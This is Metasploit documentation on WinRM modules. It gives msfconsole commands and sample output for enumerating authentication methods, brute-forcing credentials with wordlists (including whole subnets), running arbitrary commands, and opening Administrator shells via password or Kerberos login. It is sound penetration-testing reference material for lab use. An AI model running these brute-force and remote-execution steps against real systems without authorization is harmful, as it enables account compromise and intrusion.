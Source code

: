 ## WinRM Workflows

Windows Remote Management (WinRM), is a way for clients to remotely manage Windows computers. WinRM is built on top of the Simple Object Access Protocol (SOAP) over HTTP(S).

There are two main ports for WinRM:

- 5985/TCP - HTTP
- 5986/TCP - HTTPS

On older versions of Windows such as Windows 7/Windows Server 2008 the following ports were used:

- 80/TCP - HTTP
- 443/TCP - HTTPS

Important: Before running the chosen WinRM Metasploit module, first ensure that the `RPORT` and `SSL` values are configured correctly.
Either with the modern inline option support:

```
use scanner/winrm/winrm_auth_methods

run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Or by manually setting options:

```
use scanner/winrm/winrm_auth_methods
set RHOST 192.168.123.139
set RPORT 5985
set SSL false
run
```

Metasploit has support for multiple WinRM modules, including:

- Authentication enumeration
- Verifying/bruteforcing credentials
- Running commands and opening sessions

There are more modules than listed here, for the full list of modules run the `search` command within msfconsole:

```msf
msf > search winrm
```

### Lab Environment

The WinRM modules work against Windows instances which have WinRM installed and configured.

For a domain controller the `Allow remote server management through WinRM` policy will need be enabled.
It is only possible to use WinRM against accounts which are part of the `Remote Management Users` group.

WinRM over HTTPS requires the creation of a Server Authenticating Certificate, as well as enabling the transport mode:

```
winrm quickconfig -transport:https
```

### Authentication Enumeration

Enumerate WinRm authentication mechanisms:

```
use scanner/winrm/winrm_auth_methods
run http://192.168.123.139:5985
run https://192.168.123.139:5986
```

Example:

```msf
msf auxiliary(scanner/winrm/winrm_auth_methods) > run http://192.168.123.139:5985

[+] 192.168.123.139:5985: Negotiate protocol supported
[+] 192.168.123.139:5985: Kerberos protocol supported
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### WinRM Bruteforce

Brute-force host with known user and password list:

```
use scanner/winrm/winrm_login
run https://known_user@192.168.222.1:5986 threads=50 pass_file=./wordlist.txt
```

Brute-force credentials:

```
use scanner/winrm/winrm_login
run http://192.168.123.139:5985 threads=50 user_file=./users.txt pass_file=./wordlist.txt
```

Brute-force credentials in a subnet:

```
use scanner/winrm/winrm_login
run cidr:/24:http://user:pass@192.168.222.0:5985 threads=50
run cidr:/24:http://user@192.168.222.0:5985 threads=50 pass_file=./wordlist.txt
```

### WinRM CMD

To execute arbitrary commands against a windows target:

```
use scanner/winrm/winrm_cmd
run http://user:pass@192.168.123.139:5985 cmd='whoami; ipconfig; systeminfo'
```

### WinRM Login Session

If you have valid credentials the `scanner/winrm/winrm_login` module will open a Metasploit session for you:

```
use scanner/winrm/winrm_login
run http://user:pass@192.168.123.139:5985
```

Example:

```msf
msf auxiliary(scanner/winrm/winrm_login) > run http://user:pass@192.168.123.139:5985

[!] No active DB -- Credential data will not be saved!
[+] 192.168.123.139:5985 - Login Successful: WORKSTATION\user:pass
[*] Command shell session 7 opened (192.168.123.1:58673 -> 192.168.123.139:5985 ) at 2022-04-23 02:36:34 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 7...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\user>
```

### Kerberos Authentication

Details on the Kerberos specific option names are documented in [[Kerberos Service Authentication|kerberos/service_authentication]]

Open a WinRM session:

```msf
msf > use auxiliary/scanner/winrm/winrm_login
msf auxiliary(scanner/winrm/winrm_login) > run rhost=192.168.123.13 username=Administrator password=p4$$w0rd winrm::auth=kerberos domaincontrollerrhost=192.168.123.13 winrm::rhostname=dc3.demo.local domain=demo.local

[+] 192.168.123.13:88 - Received a valid TGT-Response
[*] 192.168.123.13:5985   - TGT MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_451736.bin
[+] 192.168.123.13:88 - Received a valid TGS-Response
[*] 192.168.123.13:5985   - TGS MIT Credential Cache ticket saved to /Users/user/.msf4/loot/20230118120604_default_192.168.123.13_mit.kerberos.cca_889546.bin
[+] 192.168.123.13:88 - Received a valid delegation TGS-Response
[+] 192.168.123.13:88 - Received AP-REQ. Extracting session key...
[+] 192.168.123.13:5985 - Login Successful: demo.local\Administrator:p4$$w0rd
[*] Command shell session 1 opened (192.168.123.1:50722 -> 192.168.123.13:5985) at 2023-01-18 12:06:05 +0000
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/winrm/winrm_login) > sessions -i -1
[*] Starting interaction with 1...

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\Administrator>
```
